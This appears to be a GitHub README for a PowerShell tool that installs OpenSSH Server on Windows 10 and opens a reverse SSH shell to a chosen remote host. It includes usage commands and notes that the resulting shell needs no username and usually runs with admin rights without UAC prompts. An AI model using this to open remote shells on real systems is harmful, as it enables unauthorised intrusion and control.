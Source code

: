 # lol-reverseSSHell.ps1
Living Off the LAN - Reverse Shell over SSH

This script is intended to make SSH reverse shells easier to initiate on Windows 10. It utilizes OpenSSH Server to forward a CMD.exe shell. If OpenSSH Server is missing from the Windows 10 host, it will install it via WindowsCapability / DISM. ( * If OpenSSH server is missing, the script will ask to install it by downloading OpenSSH Server from Microsoft.) Then the script will copy the sshd_config file, ssh private key, and authorized_keys files from the repo's root to the proper locations on the Windows host. Finally it creates a reverse SSH connection. The shell served is CMD.exe by default. Once you're in the cmd.exe cli, you can type 'powershell' to get a PS shell. 

* Please generate NEW SSH KEYs. Use the repo's keys only for testing. 

Usage: 
* .\lol-reverseSSHell.ps1 -DestinationUserName `<user>` -DestinationHost `<IP Address>`
* .\lol-reverseSSHell.ps1 -DestinationUserName aj -DestinationHost 10.10.10.10 -DestinationPort 22 -DestinationBindLocalPort 7777 -InstallOpenSSHServer yes 
  - - OR - 
* Double Click .bat file and enter requested information.

Setup Instructions for SSH Keypairs and Help Documentation: 
* get-help .\lol-reverseSSHell.ps1 
* get-help .\lol-reverseSSHell.ps1 -Examples

Remote cmd.exe in a bash terminal via ssh: 
![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image.png?raw=true)
Remotely executing commands via cmd.exe and powershell.exe:  
![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image02.png?raw=true)

Windows vs Unix Reverse SSH Shells, & the Interesting Security Implications for Windows Users
-----------------------------------------------------------------------------------------------
Running list as I do research: 
* Unknown Usernames are OK - Once you have a reverse connection, Windows does NOT require knowing the username to authenticate to a shell when using keypair authentication. A simple call to localhost and port will connect to a shell under the context of the user that initiated the reverse ssh connection. 
  
  --- Windows Example --- ssh localhost -p `<localport>`  
  --- Unix Example --------- ssh user123@localhost -p `<localport>` 
   
* Admin Privleges - Because the shell is ran using admin privleges, and most Windows users run as privleged users, the shell will have admin privleges without ever needing to know the user's name or admin password. After a shell has been initiated, there are no password prompts or UAC alerts to prevent commands from being ran with elevated privleges. Almost equivlent to a root shell in Unix. Which means you can browse the entire file system and modify system files without permissions issues.  

